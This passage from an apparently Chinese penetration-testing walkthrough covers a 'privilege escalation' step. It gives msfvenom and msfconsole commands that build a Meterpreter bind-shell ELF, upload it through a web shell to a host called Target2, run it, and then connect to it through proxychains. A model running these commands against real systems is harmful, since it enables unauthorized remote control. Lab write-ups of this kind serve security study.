 [![](assets/1705981930-e01b5d171840b7ed41d2ce1dd3423597.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121143637-6d54be64-b827-1.png)

### 3.3 提权

使用 mefvenom 生成一个可执行的反弹 shell

```plain
msfvenom -p linux/x86/meterpreter/bind_tcp lport=9876 -f elf -o shell2.elf
```

将 elf 文件通过蚁剑上传至 Target2，赋予权限并执行

[![](assets/1705981930-bd13bf0b84ace8835c6f536a9b627a17.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121143834-b3010f6c-b827-1.png)

开启 msfconsole 启动监听

```plain
proxychains4 msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/bind_tcp
show options
set rhost 192.168.1.132
set lport 9876
run
```

shell 成功上线

[![](assets/1705981930-62a0a22bc61a39d861abd3b158581070.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121143848-bbbce964-b827-1.png)
